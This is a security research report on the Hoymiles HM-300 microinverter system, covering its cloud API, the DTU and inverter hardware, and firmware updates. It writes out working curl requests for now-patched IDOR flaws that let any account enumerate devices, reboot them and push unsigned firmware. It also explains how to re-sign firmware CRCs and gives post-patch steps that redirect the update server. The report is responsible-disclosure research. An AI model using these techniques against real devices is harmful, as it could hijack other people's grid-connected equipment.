









# Balcony in the cloud: Security analysis of the Hoymiles HM microinverter system 

In this report a very popular microinverter system for balcony power plants is analyzed from a cybersecurity perspective. 

> [!IMPORTANT]
> **The critical cloud vulnerabilities have been patched.** However, it is still possible to reproduce part of the proof-of-concept on own, registered devices in a local network. See the section [Post-patch Reproduction](#post-patch-reproduction).


## Table of content

[System under Test](#TOE) \
[App and cloud](#app-and-cloud) \
[DTU](#the-dtu) \
[MI](#the-mi) \
[Firmware update](#firmware-update) \
[Post-patch Reproduction](#post-patch-reproduction) \
[Conclusion](#conclusion) \
[Disclosure](#disclosure)

## TOE

* A **Hoymiles HM-300 micro-inverter** (300 W) w/ FW 01.00.15. In this report MI stands for MicroInverter.
* A **DTU Wlite** for cloud communication w/ FW 0.3.12. DTU stands for Data Transfer Unit.
* The **S-Miles Installer android app** V1.1.7. This app is needed for installation and can also be used for monitoring.
* Hoymiles provides a web-based cloud access at global.hoymiles.com. This is also part of the system under test. 

Basically, a microinverter transforms the electrical energy from the solar panels (DC) into grid compatible energy. 

The Hoymiles HM-300 has a proprietary RF communication protocol, the [nRF shockburst protocol](https://developer.nordicsemi.com/nRF_Connect_SDK/doc/latest/nrf/protocols/esb/index.html). It is connected to the DTU with this protocol. The DTU acts as a gateway between the microinverter and the internet i.e. the Hoymiles cloud. 

Here is a block diagram of the system:


## App and cloud 

Following tools have been used:
* android emulator 
* Frida and [this script](https://github.com/httptoolkit/frida-android-unpinning/blob/main/frida-script.js) to bypass certificate pinning
* [jadx](https://github.com/skylot/jadx) for app reverse engineering
* Chrome with developer tools
* curl, curl, curl and curl


### Get the serial numbers of (all) registered devices **(PATCHED)**
 
In `jadx` an overview of the APIs could be found in the package `com.hoymiles.http`, class `httphelper`. It was possible to get some information about any power plant (called `station`) registered in the system - even without being the owner. A power plant has a DTU and some inverters/MIs. They have a unique id which seems to be incremented by 10 for every new creation. Here is the API call (the token does not need to belong to the power plant related account, any valid token for a DIY account works):

```sh
curl http://neapi.hoymiles.com/pvm/api/0/dev/dtu/select_all -H "content-type: application/json" -X POST -H "Authorization: [Token here]" -d '{"id":[id here]}'
```
Answer:
```json
{"status":"0","message":"success","data":[{"dtu":{"id":,"sn":"4111XXXXXXXX","vc":""},"repeater_list":[{"id":0,"sn":"","dev_type":2,"inv_id":null,"inv_sn":null,"inv_type":null,"micros":[{"id":,"sn":"1121XXXXXXXX","vc":"","dev_type":3,"series":null,"port_array":[1]}]}]}]}
```
This information could be extracted for every registered power plant, including serial numbers of DTU and MIs. Moreover, by enumerating the ids, we could get the total number of registered power plants (something over 230.000 as of 09.2023).

### Send any command to any device connected (Insecure Direct Object Reference) **(PATCHED)**

In the web-based cloud access it was possible to send some commands the the devices (e.g. switch on, switch off, restart, update...). Only the serial number of the targeted device was needed on top of a valid token. However, the token did not need to belong to the power plant related account, any valid token from a DIY account worked (IDOR vulnerability). Here is an example of a **DTU_REBOOT** command:

Request:
```sh
curl https://neapi.hoymiles.com/pvm-ctl/api/0/dev/command/put -H 'content-type: application/json' -X POST -H 'Authorization: [Token here]' -d '{"action": 1,"dev_sn": "4111XXXXXXXX","dev_type": 3,"dtu_sn": "4111XXXXXXXX"}'
```
Answer:
```json
{"status":"0","message":"success","data":"xxxxxxx"}
```

Let's have a look at the embedded part now.

## The DTU

The DTU is connected to the cloud via the home router. It has to be configured locally first via its access point. 

First, the DTU does not use TLS to communicate with the cloud (so no need for mitmproxy).

Second, I opened the DTU and tried to attach a [JLINK debug probe](https://www.segger.com/products/debug-probes/j-link/) to its SWD debugging interface (friendly enough, the SWD pins are tagged).
Here are some pictures:






No debugging protection is in place. The DTU uses a [Gigadevice GD32F303](https://www.gigadevice.com/product/mcu/arm-cortex-m4/gd32f303ret6) CPU (arm based) as main CPU. The CPU has internal and external flash. The wifi part is implemented with an ESP-12F module. An nRF chip implements the shockburst protocol for the communication with the MI. 

With JLINK we can dump the flash and debug the device. 

Note that the device does not implement secure boot, so that modified firmware can be executed. 

## The MI

The micro-inverter is a nice piece of hardware. However, it is filled with some compound and it was a mess to remove it properly.

Here are some pictures:





Basically it has following parts:

1. A DC/DC converter converts the low-voltage DC input from the solar panels (< 60V) to the high voltage needed for the grid. In the Hoymiles HM-300 four high-power transistors switch the input current to feed two transformers primary circuits. The secondary circuits are connected to a rectifier circuit.

2. A so called **H bridge** converts this DC energy into sinus-formed AC. Note that the high voltage part is completely isolated from the primary (solar panel part) with galvanic isolation. This is implemented with the transformers and optocouplers for the transistor drivers. In the Hoymiles HM-300 a mix of transistors and thyristors can be found in the bridge. 

3. Output LC-filter and a protection (in German part of the *NA Schutz*) with a relay implementing the required galvanic isolation. In addition a 5 A "time-lag" (i.e. slow) fuse is implemented on the L line of the grid interface.

4. A shielded RF module to handle the shockburst communication

5. A Microcontroller [TI TMS430F28034](https://www.ti.com/product/TMS320F28034) controls everything, incl. power electronics. The microcontroller is powered by the solar panel energy, so it is e.g. switched off by night. The microcontroller controls every single transistor and the relay via some amplifiers / drivers. 

Here is a block diagram of the MI:


Again, the JTAG interface is open so we can connect a TI JTAG probe (Standard TI 14 pin JTAG connector pinout) and use TI [code composer studio](https://www.ti.com/tool/CCSTUDIO) to do some tests. The flash content can be easily dumped too. The device does not implement secure boot, so that modified firmware can be executed. 

> [!NOTE]
> Note that the MI implements a short circuit / over-current protection (hardware circuit) on the grid side.


## Firmware update 

### Firmware update image

One of the cloud API command is related to firmware upgrade. Via the web-based cloud access it is possible to upgrade a DTU firmware. It is possible to upgrade the MIs too.

First we need a valid firmware upgrade image.

The uri of the last DTU upgrade firmware image can be retrieved with following call:
```sh
curl https://neapi.hoymiles.com/pvm/api/0/dev/upg_patch/select_by_sn_prefix -H 'content-type: application/json' -X POST -H 'Authorization: [Token here]' -d '{"dev_type":1,"dev_sn":"4111XXXXXXXX"}'
```
Answer:
```json
{"status":"0","message":"success","data":[{"id":1567,"name":"DTU-Lite-GD-V0.3.012-20230417-0954.hex","crc":46937,"path":"/cfs/hex/2304/21/1416622429618442240.hex","patch_ver":"V0.3.12","ver_type":0,"cpu_mode":0}]}
```

Note that the path is relative to the firmware upgrade server located at `fwupdate.hoymiles.com`.

### Image format

Basically, both firmware update images are in Intel Hex format, they are not encrypted nor signed. However they contain some headers and CRCs which need to be reverse engineered and adapted in case of modifications.

Both devices implement a bootloader which is used to check the downloaded images before flashing and check the firmware integrity before execution (i.e. check the CRCs and headers). These bootloaders are probably not updatable and are not part of the update images. 

Note that 16 bit MODBUS CRCs are used almost everywhere.

#### DTU

Here is an example of header:
```
:10F80000010800000508A05A99730109545F1714F4
```
Following fields can be found:
* `:10`: Intel Hex field, number of payload bytes in the line
* `F800`: target address of this payload
* `00`: payload type: data
* `01080000`: address of the beginning of the update image in flash
* `0508A05A`: address of the end of the update image in flash
* `9973`: CRC of the update image (body part, i.e. w/o header)
* `0109`: ? 
* `545F`: CRC of this header 
* `1714`: ? 
* `F4`: Intel hex checksum

If the image body is modified, a new CRC has to be calculated and it has to be replaced in the header. Then the header CRC is calculated over following fields:
* `01080000`: address of the beginning of the update image in flash
* `0508A05A`: address of the end of the update image in flash plus 1 byte
* `9973`: CRC of the update image (body part, i.e. w/o header)
* `0109`: ? 

Note that every 16 bit word has to be byte-swapped before the CRC is calculated (header only). The CRCs are also byte-swapped.

Finally the CRC header is replaced in the header and the update image is ready.

#### MI

The same analysis can be done for the MI, this is left as an exercise for the reader.

### Upgrade commands

Here is the upgrade command via cloud API for the DTU:
```sh
curl https://neapi.hoymiles.com/pvm-ctl/api/0/dev/command/put -H "content-type: application/json" -X POST -H "Authorization: [TOKEN 1.xxx]" -d '{"action":2,"dev_type":1,"dev_sn":"4111XXXXXXXX","dtu_sn":"4111XXXXXXXX","data":{"upg_patch_id":921,"file_uri":"/cfs/hex/2308/27/1462926872823336960.hex","file_name":"DTU-Lite-GD-V0.3.012-20230417-0954.hex","file_crc":9827}}'
```
Answer:
```json
{"status":"0","message":"success","data":"xxxxxxx"}
```

We can only control the relative part of the uri. The DTU fetches the firmware update image from the server `fwupdate.hoymiles.com` so that the complete uri is (http protocol is used on the DTU side, the device sends an http GET request to get the file):
```
http://fwupdate.hoymiles.com/cfs/hex/2308/27/1462926872823336960.hex
```

### Upload an update image **(PATCHED)**

Within the cloud access, it is possible to upload some pictures of the power plant. This is done via `content-type: multipart/form-data` for example:
```sh
curl https://m.hoymiles.com/fss/api/0/file/upload -H "content-type: multipart/form-data; boundary=---------------------------199673629630748465841477186253" --data-binary @pic
```
And this is the content of `pic`:

```
-----------------------------199673629630748465841477186253
Content-Disposition: form-data; name="file"; filename="pic.png"
Content-Type: image/png

[PNG CONTENT HERE]
-----------------------------199673629630748465841477186253--
```
Answer:
```json
{"status":"0","message":"success","data":{"url":"https://static.hoymiles.com/cfs/png/2309/05/1466304305639329792.png","crc":0,"fileName":"pic.png","filePath":"png/2309/05/1466304305639329792.png","fileSize":6447}}
```
The server gives us back the uri of the image file. Interestingly, no token was needed for this operation. Due to some server (mis)configurations, it was also accessible from `fwupdate.hoymiles.com` with the same relative uri:
```
http://fwupdate.hoymiles.com/cfs/png/2309/05/1466304305639329792.png
```

What happens if we try to upload an intel hex file? By modifying the file name within the `multipart/form-data` header with `X.hex` (w/o modifying the `content-type` field) we could upload an Intel hex file:

```
-----------------------------199673629630748465841477186253
Content-Disposition: form-data; name="file"; filename="X.hex"
Content-Type: image/png

:020000040800F2
:10F80000010800000508A05A99730109545F1714F4
[...]
-----------------------------199673629630748465841477186253--
```
Answer:
```json
{"status":"0","message":"success","data":{"url":"https://static.hoymiles.com/cfs/hex/2308/27/xxxxxxxxxxxxxxx.hex","crc":3282,"fileName":"X.hex","filePath":"hex/2308/27/xxxxxxxxxxx.hex","fileSize":802732}}
```

One of my modified update images is still [there](http://fwupdate.hoymiles.com/cfs/hex/2308/26/1462407114327724032.hex). Some 0x55 have been added at the end of the flash:
```
:2041920055555555555555555555555555555555555555555555555555555555555555556D
```

### Update the devices in field with modified firmware

We just need to send the **UPGRADE** commands to the devices via the cloud API (here DTU):
```sh
curl https://neapi.hoymiles.com/pvm-ctl/api/0/dev/command/put -H "content-type: application/json" -X POST -H "Authorization: [TOKEN 1.xxx]" -d '{"action":2,"dev_type":1,"dev_sn":"4111XXXXXXXX","dtu_sn":"4111XXXXXXXX","data":{"upg_patch_id":xxx,"file_uri":"/cfs/hex/xxxx/xx/[name from server].hex","file_name":"[file name].hex","file_crc":9827}}'
```
Answer:
```json
{"status":"0","message":"success","data":"xxxxxxx"}
```

## Post-patch reproduction

Here are some instructions to reproduce part of the exploit chain post-patch. 
Modifications of the firmware update files can be performed, then CRCs and Headers can be re-calculated according the the [image-format](#image-format) section. These modified update files can be installed into the devices according to the following instructions.

> [!WARNING]
> By modifying the firmware of the MI, the control of the power electronics can be changed and this is safety relevant. **Do not connect a device with modified firmware to the grid**. A device with modified firmware can also be overheated / destroyed / bricked. I do not assume any responsibility for any damage.

### Restrictions

* Only own, registered devices can be updated.
* The official update firmware server is replaced with an http server in the same network. The GET command from the DTU is redirected to this server with `dnsmasq`.

### Hardware Setup

The solar side of the MI shall be connected to a power supply with 30 V and 3 A. The grid side can be connected to a signal generator.

An additional WiFi router (w/ 2.4 GHz radio) is needed. Connect the DTU to this router with the app. Connect the WAN port of the router to a PC ethernet port (in the following example `enp1s0` w/ `192.168.2.1` as PC IP address - adapt).

Here is a block diagram:


### Software Setup

1. Install `dnsmasq` and add following lines to `/etc/dnsmasq.conf`:
```bash
address=/fwupdate.hoymiles.com/192.168.2.1
interface=enp1s0
dhcp-range=192.168.2.50,192.168.2.150,255.255.255.0,12h
dhcp-option=enp1s0,3,192.168.2.1
```
Then restart `dnsmasq`.

2. Setup IP tables:
```bash
#!/bin/bash
sudo systemctl restart dnsmasq
sudo sysctl -w net.ipv4.ip_forward=1
sudo sysctl -w net.ipv4.conf.all.send_redirects=0
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
```

4. Start the http server
```bash
sudo python3 -m http.server 80
```

Put your modified firmware update files in the same directory:
* DTU.hex for the DTU
* MI.hex for the MI

### Start Update

A session token is needed, from the account linked to the targeted DTU and MI devices.

Here is the command to update the DTU:
```bash
curl https://neapi.hoymiles.com/pvm-ctl/api/0/dev/command/put -H "content-type: application/json" -X POST -H "Authorization: [SESSION_TOKEN]" -d '{"action":2,"dev_type":1,"dev_sn":"[DTU_SERIAL_NUMBER]","dtu_sn":"[DTU_SERIAL_NUMBER]","data":{"upg_patch_id":1234,"file_uri":"/DTU.hex","file_name":"DTU.hex","file_crc":0}}'
```
Note that the CRC is ignored.

## Conclusion

In this report different vulnerabilities affecting a micro inverter system have been described. 
We can hope that in the future proper security will be implemented on these devices/systems. The energy sector needs to catch up as far as security is concerned! 

## Disclosure

* 2023-09-01: Detailed disclosure to the BSI via „Meldeformular“
* 2023-09-07: Mail to the BSI, asking for feedback. 
* 2023-09-10: Complete pdf report sent to the BSI per mail. Still no answer.
* 2023-09-22: Mail to the BSI, asking for feedback. Still no answer. 
* 2023-09-24: Contact to Heise.
* 2023-09-25: First vulnerabilities have been patched.
* 2023-09-27: First answer from the BSI. 
* 2023-09-28: First article @Heise.
* 2023-09-29: All cloud vulnerabilities have been patched, Heise confirmed.
* 2023-09-29: Main parts of the report has been sent to the manufacturer.

